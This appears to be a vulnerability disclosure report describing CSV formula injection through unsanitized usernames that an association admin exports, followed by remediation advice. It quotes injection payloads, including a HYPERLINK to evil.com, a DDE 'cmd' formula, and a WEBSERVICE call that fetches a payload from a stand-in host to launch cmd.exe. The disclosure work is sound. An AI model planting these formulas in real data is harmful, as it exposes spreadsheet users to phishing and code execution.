

# Improper Neutralization of Formula Elements in a CSV File

 

# **Description**

The application allows users to create accounts with arbitrary usernames, including formulas that are not sanitized before exporting to CSV. Specifically, an attacker can inject a formula like `=HYPERLINK("http://evil.com", "Click here")` into the username field. When the exported CSV is opened in a spreadsheet program such as Microsoft Excel or Google Sheets, the formula is executed, potentially leading to phishing attacks or the execution of malicious actions.

# **Exploitation**

An attacker can exploit this vulnerability by creating an account with a username that contains a malicious formula. For example:

- Username: `=HYPERLINK("http://evil.com", "Click here")`
When an administrator or other users export the list of users in associations to a CSV file and open it in a spreadsheet program, the formula will be executed, potentially leading to:
    - Phishing: The victim may be redirected to a malicious website.
    - Data manipulation: The attacker could manipulate spreadsheet data in unintended ways.
    - Arbitrary code execution: In some cases, the formula might trigger more complex code execution.

# **PoC**

Create user with malicious username:

Join an association:

Now need an admin of an association export his user to csv

And we see username is not sanitize

And now when csv is load in sheet the malicious formula username is executed

# **Risk**

The risk of this vulnerability includes:

- **Phishing Attacks**: The attacker could use the injected hyperlink to trick users into visiting a malicious site.
- **Data Integrity Issues**: Other users or administrators could be misled or manipulated by the injected formula.
- **Increased Attack Surface**: If exploited in combination with other attacks, this could escalate into a more serious security issue.
- Can maybe lead to RCE on client Computer, formulas can be:
    - `=cmd|' /c notepad'!A0`
    - `=WEBSERVICE("http://example.com/payload.txt")` who return this payload: `=MSEXCEL|'\..\..\..\Windows\System32\cmd.exe /c calc.exe'!''`

# **Remediation**

To mitigate this vulnerability:

1. **Sanitize User Input**: Ensure that user input, especially in fields like usernames, is sanitized to prevent formula injections. For example, remove or escape special characters like `=`, `+`, , or `@` that could indicate a formula in spreadsheet programs.
2. **Prepend a Single Quote**: To prevent formulas from being executed, prepend a single quote (`'`) to any input that may be exported to CSV. This ensures that even if a formula is injected, it is treated as a plain string.
3. **Validate User Inputs**: Set clear restrictions on what constitutes a valid username (e.g., no special characters, no leading equals signs).

# **References**

- https://owasp.org/www-community/attacks/CSV_Injection

# **Author**

4Fromages